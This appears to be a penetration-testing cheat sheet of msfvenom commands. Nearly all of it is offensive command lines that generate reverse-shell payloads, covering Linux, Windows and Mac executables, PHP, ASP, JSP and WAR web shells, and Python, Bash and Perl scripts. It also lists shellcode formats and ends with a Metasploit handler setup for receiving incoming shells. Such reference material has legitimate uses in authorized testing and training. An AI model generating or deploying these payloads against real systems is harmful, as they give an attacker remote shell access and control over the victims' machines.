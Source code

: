# List payloads
```bash
msfvenom -l
```
# Binaries
## Linux

```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```
## Windows

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```
## Mac

```shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

# Web Payloads
## PHP

```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
## ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```
## JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```
## WAR

```bash 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```
# Scripting Payloads
## Python

```bash
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```
## Bash

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```
## Perl

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```
# Shellcode
>For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

## Linux Based Shellcode

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
## Windows Based Shellcode

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
## Mac Based Shellcode

```shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
# Handlers

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

*.use exploit/multi/handler
*.set PAYLOAD <Payload name>
*.set LHOST <LHOST value>
*.set LPORT <LPORT value>
*.set ExitOnSession false
*.exploit -j -z
> Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘
